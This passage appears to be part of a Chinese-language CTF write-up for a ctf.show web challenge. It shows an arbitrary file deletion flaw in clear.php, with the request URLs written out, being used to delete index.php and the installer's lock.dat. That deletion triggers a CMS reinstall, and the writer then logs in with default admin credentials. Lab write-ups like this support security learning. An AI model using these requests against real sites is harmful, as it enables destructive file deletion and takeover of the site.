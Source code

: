 如果要利用 cms 的**重装漏洞** ，则要找到一个点 删除 这个 lock.dat 文件

接着访问 `/clear.php` 试试，显示清理完成

<img src=".\图片\Snipaste_2023-08-08_14-22-16.png" alt="Snipaste_2023-08-08_14-22-16" style="zoom:80%;" />

于是我们 fuzz 它

```http
http://4071ec28-fba3-4714-ac43-8bba10d31886.challenge.ctf.show/clear.php?file=index.php
```

看到 index.php 已经被删除，这个就是任意文件删除漏洞，于是删除 `install/lock.dat`，触发重装漏洞

```http
http://4071ec28-fba3-4714-ac43-8bba10d31886.challenge.ctf.show/clear.php?file=install/lock.dat
```

再触发重装漏洞即可

<img src=".\图片\Snipaste_2023-08-08_14-26-54.png" alt="Snipaste_2023-08-08_14-26-54" style="zoom:80%;" />

用默认账号密码登录 `admin:admin888`

<img src=".\图片\Snipaste_2023-08-08_14-28-37.png" alt="Snipaste_2023-08-08_14-28-37" style="zoom:80%;" />

## web387
